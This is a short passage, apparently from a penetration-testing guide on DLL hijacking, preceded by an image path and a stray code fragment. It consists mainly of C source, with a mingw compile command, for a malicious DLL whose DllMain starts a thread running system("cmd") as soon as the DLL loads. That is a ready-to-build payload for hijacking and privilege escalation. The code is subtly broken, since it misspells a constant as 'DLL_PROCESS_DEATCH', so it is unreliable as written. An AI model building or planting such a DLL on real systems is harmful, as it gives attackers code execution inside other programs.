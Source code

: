 ```c
  return 0;
}
```

```c
//Another possible DLL
// i686-w64-mingw32-gcc windows_dll.c -shared -lws2_32 -o output.dll

#include<windows.h>
#include<stdlib.h>
#include<stdio.h>

void Entry (){ //Default function that is executed when the DLL is loaded
    system("cmd");
}

BOOL APIENTRY DllMain (HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call){
        case DLL_PROCESS_ATTACH:
            CreateThread(0,0, (LPTHREAD_START_ROUTINE)Entry,0,0,0);
            break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DEATCH:
            break;
    }
    return TRUE;
}
```
